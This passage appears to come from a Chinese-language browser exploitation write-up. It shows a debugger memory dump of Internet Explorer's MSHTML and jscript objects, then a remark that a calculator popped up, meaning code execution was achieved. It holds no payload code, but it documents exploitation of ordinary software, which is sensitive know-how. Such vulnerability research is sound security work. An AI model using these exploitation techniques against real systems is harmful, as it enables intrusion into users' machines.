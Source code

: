 ```
00000000`05388610  000007fe`ec1632e0 MSHTML!PlainRelease
00000000`05388618  000007fe`00000000
00000000`05388620  00000000`00000000
00000000`05388628  00000000`056fbda0
00000000`05388630  00000000`00000001
00000000`05388638  00000000`05388678
00000000`05388640  00000000`00000000
00000000`05388648  00000000`05388690
00000000`05388650  00000000`0720e490
00000000`05388658  00000000`00000000
00000000`05388660  00000000`00000001
00000000`05388668  00000000`0720e490
00000000`05388670  00000000`00000000
00000000`05388678  00000000`053886d0
00000000`05388680  00000000`00000000
00000000`05388688  00000000`00000001
00000000`05388690  00000000`00000000
00000000`05388698  00000000`00000000
00000000`053886a0  00000000`00000000
00000000`053886a8  00000000`00000000
00000000`053886b0  00000000`00000000
00000000`053886b8  00000000`00000000
00000000`053886c0  00000000`00000000
00000000`053886c8  00000000`00000000
00000000`053886d0  00000000`00000008
00000000`053886d8  00000000`0039f764
00000000`053886e0  00000000`003334f0
00000000`053886e8  006c0020`00290030
00000000`053886f0  000007fe`ec650000 MSHTML!CDiagnosticsGlobalScopeProxy::`vftable'+0x250
00000000`053886f8  00000000`0039f638
00000000`05388700  00000000`00001f80
00000000`05388708  00000000`003080b0
00000000`05388710  00000000`00000080
00000000`05388718  00000000`0037a480
00000000`05388720  00000000`00000000
00000000`05388728  00000000`053886f0
00000000`05388730  00000000`003797a0
00000000`05388738  00000000`05388e40
00000000`05388740  00000000`1039c228
00000000`05388748  000007fe`f00aabe8 jscript!NameList::FCreateVval+0xd8
00000000`05388750  00008687`1cf8f2fd
00000000`05388758  00000000`05389660
```

弹出计算器，实现代码执行~

[![](https://p2.ssl.qhimg.com/dm/1024_652_/t017a434d81e06ef7de.png)](https://p2.ssl.qhimg.com/dm/1024_652_/t017a434d81e06ef7de.png)



## 写在最后
